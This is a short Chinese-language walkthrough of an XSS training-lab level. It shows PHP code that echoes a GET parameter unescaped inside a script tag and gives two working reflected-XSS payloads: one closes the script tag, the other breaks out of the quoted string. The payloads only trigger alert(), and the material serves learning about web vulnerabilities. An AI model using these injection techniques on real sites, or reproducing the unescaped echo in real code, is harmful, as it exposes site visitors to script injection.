

# xss6

进入example6.php

源码
```php
<script> var $a="<?php echo $_GET['name'];?>;"</script>
```

在这里就直接使用script标签对php代码进行包裹
从网页传过来的参数就会变成这样
```js
<script> var $a=" <script>alert('hello xsss')</script>";</scrip>
```

这样就无法执行js的代码了
但是这样也是可以绕过的
可以对代码进行闭合
payload1
```js
example6.php?name=</script><script>alert('hello xss')</script><script>
```
这样传参过去后台的代码执行起来就是这样的

```javascript
<script> var $a="</script><script>alert('hello xss')</script><script>";</script>
```
这样就把本来一个js代码给分成三个了>
```javascript
<script> var $a="<script> #第一个js代码
<script> alert('hello xss')</script>    #第二个js代码
<script>";</script>    #第三个js代码
```


---


还有一种解法
也是对代码进行闭合
不过是对双引号进行闭合
payload2
```javascript
example6.php?name=";alert('hello xss');"
```
传入后台执行的代码就变成了
```javascript
<script> var $a="";alert('hello xss');"";</script>
```
这样就可以执行了


过关咯！！！！！！！！！！！！！！！！

